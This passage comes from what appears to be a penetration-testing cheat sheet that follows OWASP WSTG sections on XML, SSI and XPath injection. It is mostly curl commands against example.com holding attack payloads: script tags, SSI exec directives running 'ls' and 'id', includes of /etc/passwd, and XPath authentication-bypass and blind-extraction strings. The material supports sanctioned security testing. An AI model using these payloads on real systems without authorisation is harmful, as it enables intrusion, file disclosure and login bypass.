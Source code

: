 ```bash
curl -s -X POST "https://example.com/api/soap" -H "Content-Type: text/xml" -d '<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><test><![CDATA[<script>alert(1)</script>]]></test></soap:Body></soap:Envelope>'

# Use specialized tools for XML vulnerabilities
python3 xmlinjector.py -u "https://example.com/api/xml" -p "test.xml"
```

## WSTG-INPV-08: Testing for SSI Injection

**Objective**: Identify SSI injection points with these characters: < ! # = / . " - and [a-zA-Z0-9] and assess the severity of the injection.

### Commands

```bash
# Test for basic SSI injection
curl -s "https://example.com/page?param=<!--#echo var=\"DATE_LOCAL\" -->"

# Test for SSI command execution
curl -s "https://example.com/page?param=<!--#exec cmd=\"ls\" -->"
curl -s "https://example.com/page?param=<!--#exec cmd=\"id\" -->"

# Test for SSI file inclusion
curl -s "https://example.com/page?param=<!--#include virtual=\"/etc/passwd\" -->"
curl -s "https://example.com/page?param=<!--#include file=\"/etc/passwd\" -->"

# Test for SSI directive variations
curl -s "https://example.com/page?param=<!--#config timefmt=\"%Y%m%d%H%M%S\" -->"
curl -s "https://example.com/page?param=<!--#flastmod file=\"index.html\" -->"

# Test for SSI injection in different parameters
for param in "page" "file" "include" "template" "content"; do
  curl -s "https://example.com/page?$param=<!--#echo var=\"DATE_LOCAL\" -->"
done

# Test for SSI injection with URL encoding
curl -s "https://example.com/page?param=%3C%21--%23echo%20var%3D%22DATE_LOCAL%22%20--%3E"
```

## WSTG-INPV-09: Testing for XPath Injection

**Objective**: Identify XPath injection points by checking for XML error enumeration by supplying a single quote (') and assess the severity of the injection.

### Commands

```bash
# Test for basic XPath injection
curl -s "https://example.com/xpath?query='"
curl -s "https://example.com/xpath?query=1' or '1'='1"

# Test for XPath injection authentication bypass
curl -s -X POST "https://example.com/login" -d "username=admin' or '1'='1&password=anything"
curl -s -X POST "https://example.com/login" -d "username=admin' or '1'='1' or 'a'='a&password=anything"

# Test for blind XPath injection
curl -s "https://example.com/xpath?query=1' and substring(/users/user[1]/username,1,1)='a"
curl -s "https://example.com/xpath?query=1' and count(/users/user)>3 and '1'='1"

# Test for XPath injection in different parameters
for param in "query" "search" "xpath" "xml" "data"; do
  curl -s "https://example.com/xpath?$param='"
```